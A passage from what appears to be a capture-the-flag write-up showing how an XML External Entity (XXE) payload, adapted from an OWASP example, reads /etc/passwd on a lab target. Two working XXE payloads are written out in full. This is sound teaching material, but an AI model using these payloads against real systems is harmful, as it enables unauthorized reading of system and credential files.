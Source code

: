## XXE Attack

The file contents is not interesting, but the structure of it is. We can use this knowledge of it to craft an exploit using an External Entity (XXE) attack. I found [this](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing) which explains in detail how it works. I can take their example:

```text
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```

And use the structure from above to create my own attack:

```text
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment> 
```

This works and I can see the contents of the passwd file:

![mustacchio-xxe](/assets/images/2021-06-12-17-41-33.png)

From that we can see two users:
